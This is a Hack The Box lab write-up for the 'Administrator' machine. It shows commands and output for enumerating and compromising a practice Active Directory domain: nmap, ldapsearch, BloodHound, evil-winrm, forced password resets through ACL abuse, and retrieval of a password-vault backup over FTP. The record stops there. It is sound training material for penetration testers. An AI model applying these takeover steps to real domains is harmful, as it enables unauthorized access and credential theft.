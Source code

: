 ```yaml
---
title: Hack The Box - CTF Lab - Administrator - Medium
date: 2025-06-07 00:00:01 +0800
image: /images/thumbnails/Administrator.jpg
categories: [HTB Labs]
tags: [CPTS, Medium]
---
```

Administrator is a medium-difficulty Windows machine designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided. To gain access to the michael account, ACLs (Access Control Lists) over privileged objects are enumerated, leading us to discover that the user olivia has GenericAll permissions over michael, allowing us to reset his password. With access as michael, it is revealed that he can force a password change on the user benjamin, whose password is reset. This grants access to FTP where a backup.psafe3 file is discovered, cracked, and reveals credentials for several users. These credentials are sprayed across the domain, revealing valid credentials for the user emily. Further enumeration shows that emily has GenericWrite permissions over the user ethan, allowing us to perform a targeted Kerberoasting attack. The recovered hash is cracked and reveals valid credentials for ethan, who is found to have DCSync rights ultimately allowing retrieval of the Administrator account hash and full domain compromise.

" As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich "

First we do a full nmap scan:
```
sudo nmap -sC -sV -p- 10.10.11.42

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-06 19:54 EDT
Nmap scan report for 10.10.11.42
Host is up (0.031s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-07 06:54:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
57554/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
57559/tcp open  msrpc         Microsoft Windows RPC
57570/tcp open  msrpc         Microsoft Windows RPC
57581/tcp open  msrpc         Microsoft Windows RPC
57617/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-07T06:55:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.39 seconds
```
We notice the presence of an ftp server on port 21. 

We try to connect to it with the provided user credentials:
```
ftp Olivia@10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
331 Password required
Password: 
530 User cannot log in, home directory inaccessible.
ftp: Login failed
ftp> 
```
but the user Olivia is either restricted or does not have an ftp directory.

From the credentials we were given (Olivia:ichliebedich), let's test if this is a local computer account or a domain user account by using ldapsearch:
```
ldapsearch -x -H ldap://10.10.11.42 -D "ADMINISTRATOR\Olivia" -w ichliebedich -b "DC=administrator,DC=htb0" -s sub "(objectClass=*)"
# extended LDIF
#
# LDAPv3
# base <DC=administrator,DC=htb0> with scope subtree
# filter: (objectClass=*)
# requesting: ALL
#

# search result
search: 2
result: 10 Referral
text: 0000202B: RefErr: DSID-0310084B, data 0, 1 access points
	ref 1: 'adminis
 trator.htb0'

ref: ldap://administrator.htb0/DC=administrator,DC=htb0

# numResponses: 1
```
and by using the NETBIOS format we see that there is an entry on the domain controller.

Now that we have confirmed these are domain user credentials, we can use bloodhound.py to ingest the LDAP data from the domain controller. 
```
pipx install bloodhound-ce

bloodhound-ce-python -u Olivia -p ichliebedich -d administrator.htb -c All -ns 10.10.11.42 -dc administrator.htb
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 05S
```
Then we can use our bloodhound installation (installation guide at https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart) and import all of these files generated by the bloodhound-ce-python collector.

After everything is imported, we can go ahead and find all the attributes of our user Olivia in Bloodhound.

In pathfinding, we see that Olivia has GenericAll permissions to a user called Michael, meaning that we have complete control over the user object Michael:
![image tooltip](images/screenshots/Screenshot%202025-06-07%20135530.png)

We can then use the net user 

From the nmap scan, since port 5985 is open on the domain controller 10.10.11.42, we can use evil win-rm to login with Olivia's credentials and change the password of Michael's account:
```
sudo evil-winrm -i 10.10.11.42 -u Olivia -p ichliebedich
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents> net user michael Password123@ /domain
The command completed successfully.
```
Now we can connect to Michael's account:
```
sudo evil-winrm -i 10.10.11.42 -u michael -p Password123@
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\michael\Documents> 
```
We then check the account Michael@administrator.htb on Bloodhound and see that it has the ForceChangePassword privilege over the Benjamin@administrator.htb account.

We run the following with the Michael account using PowerView.ps1 to change Benjamin's password:
```
*Evil-WinRM* PS C:\Users\michael\Documents> Import-Module C:\Users\michael\Documents\PowerView.ps1
*Evil-WinRM* PS C:\Users\michael\Documents> $UserPassword = ConvertTo-SecureString 'Password123@' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\michael\Documents> Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword
```
We see that the Benjamin user is not a remote management user but has the additional group called "share moderators," which sounds like an additional fileshare permission. 

We then try to login to the ftp server using Benjamin's credentials:
```
ftp benjamin@10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.

ftp> dir
229 Entering Extended Passive Mode (|||64827|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||64828|)
125 Data connection already open; Transfer starting.
100% |***************************************************************************|   952       30.56 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (30.26 KiB/s)
```
And we get a file named Backup.psafe3. 


















